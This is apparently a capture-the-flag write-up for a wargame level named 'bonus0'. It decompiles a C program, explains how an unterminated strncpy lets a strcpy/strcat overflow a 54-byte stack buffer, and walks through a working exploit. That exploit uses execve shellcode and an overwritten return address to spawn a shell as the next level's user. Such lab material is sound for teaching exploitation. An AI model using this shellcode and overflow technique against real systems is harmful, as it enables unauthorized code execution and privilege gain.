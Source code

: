 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level9](../level9/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[bonus1 →](../bonus1/solution.md)
</span>
</span>

bonus0
======

Decompilation
-------------

The program looks like this:
```c
#include <stdint.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void p(char *dest, const char *s)
{
	char buff[0x1000];

	puts(s);

	read(0, &buff, 0x1000);

	*strchr(buff, '\n') = '\0';

	strncpy(dest, buff, 20);
}

void pp(char *dest)
{
	char dest_a[20];
	char dest_b[20];

	p(dest_a, " - ");
	p(dest_b, " - ");

	strcpy(dest, dest_a);

	dest[strlen(dest)] = ' ';

	strcat(dest, dest_b);
}

int main(void)
{
	char dest[54];

	pp(dest);

	puts(dest);

	return 0;
}
```

The main calls the pp funtion, which calls the p function twice, on two different destinations.

The p function shows a prompt, reads the standard input into a big buffer, replaces the new-line character with a NUL-byte, and copies up to 20 bytes from the big buffer to the destination.

Afterwards, the pp function concatenates both inputs, using the space character as a separator.

For example, if we input the lines "AAAA" and "BBBB", the resulting string will be "AAAA BBBB":
```sh
(echo "AAAA"; sleep 0.1; echo "BBBB") | ./bonus0
```
```
 -
 -
AAAA BBBB
```

Exploitation
------------

Everything works as intended as long as the lines length do not exceed 19 characters.

If we input a longer string, the NUL-terminator will be missing from the 20 bytes that are copied to the destination.

Let's see how strncpy would handle this situation:
```sh
man strncpy
```
```
The strncpy() function is similar to strcpy(), except that at most n  bytes  of  src  are  copied.

Warning: If there is no null byte among the first n bytes of src, the string placed in dest will not be null-terminated.
```

This means that the string stored in dest would not be terminated, and the following call to strcpy would continue to copy the memory following it, until a terminator is found.

```sh
(echo $(printf '%.0sA' {1..20}); echo $(printf '%.0sB' {1..4})) | ./bonus0
```
```
 -
 -
AAAAAAAAAAAAAAAAAAAABBBB BBBB
```

Because the memory following the first string is the second string, it is copied twice.

The final destination buffer is 54 bytes long. We can try to overflow it and overwrite the stored return pointer.

Because the second string is copied twice, and both are separated with a space, we need to account for them to get the right length.
```
len = len_a + 1 + 2 * len_b + 1 = 54

len_a = 20
len_b = (54 - 20 - 1 - 1) / 2 = 16
```

To fill the buffer, we need the second string to be exactly 16 bytes long.

```sh
(echo $(printf '%.0sA' {1..20}); echo $(printf '%.0sB' {1..16})) | ./bonus0  | tail -n1 | wc -c
```
```
54
```

We can determine the address of the destination buffer using gdb, put some shellcode at the beginning and overflow with the buffer's address, to return onto it.

```sh
gdb -batch -ex 'b * 0x080485b4' -ex 'r' -ex 'p (const char *)$eax' ~/bonus0
```
```
...
Breakpoint 1, 0x080485b4 in main ()
$1 = 0xbffff716 "\377\377\001\001"
```

I will reuse the shellcode from level2 again.
Because it is 21 bytes long, we need to put the last byte on the beginning of the second line and adjust the padding length.
```sh
LC_ALL=C # Count bytes instead of graphemes

SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LINE_A="${SHELLCODE:0:20}"
LINE_B="${SHELLCODE:20:1}$(printf '%.0sB' {1..13})"$'\x16\xf7\xff\xbf'B

(echo "$LINE_A"; sleep 0.1; echo "$LINE_B"; sleep 0.1; echo whoami) | ~/bonus0
```
```
bonus1
```
